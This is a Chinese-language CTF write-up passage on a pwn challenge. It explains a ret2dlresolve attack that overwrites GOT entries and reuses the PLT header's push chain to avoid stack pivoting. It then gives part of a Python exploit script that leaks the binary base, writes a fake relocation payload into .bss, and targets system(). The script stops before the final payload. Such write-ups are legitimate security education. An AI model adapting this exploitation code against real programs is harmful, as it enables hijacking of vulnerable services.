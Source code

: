 接下来要完成利用，还要构造出 `[my_buf, 0]` 的栈布局并且调用到 `plt0 + 6` 的位置，这对于常规 ret2dlresolve 栈溢出的例题而言并不困难，但是本题只能篡改 `.bss` 段上的内存，没有提供栈上 ROP 的能力，通常会想到**栈迁移**之类的做法，不过这里还有更简单的解法

![[wp-infosec2024-0.png]]
![[wp-infosec2024-1.png]]

我用 ropper 看了一下，题目中并没有 push 相关的 gadget，也难以直接改变栈上数据，但是 plt 头部本身就提供了先 `push 0x0` 再 jump 到 plt0 的位置 `push [_GLOBAL_OFFSET_TABLE_+8]` 的调用链，got 表又是可写的，因此就免去了栈迁移的麻烦。

因此可以篡改 puts 以外的某个函数的 got 表项到上面 `0x555555555034` 的位置，再布置好 GOT 表上 `[_GLOBAL_OFFSET_TABLE_+8] = my_buf` 实现利用，最终 exp 如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"isadbg> ")
    sl(data)


cmd(b"subscribe")
ru(b"\t2. Monthly\n")
s(b"3")
ru(b"Unsupported choice: ")
elf_base = int(ru(b"\n", drop=True), 10) - 0x4033
lg("elf_base", elf_base)


def send_payload(base, payload):
    for i in range(len(payload)):
        cmd(b"set " + hex((i * 8) + base).encode() + b" " + hex(payload[i]).encode())


my_buf = elf_base + 0x4000 + 0x300
l_addr = libc.sym.system - libc.sym.puts
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr + elf_base
plt0 = elf.get_section_by_name(".plt").header.sh_addr + elf_base
lg("my_buf", my_buf)
lg("dynstr", dynstr)
```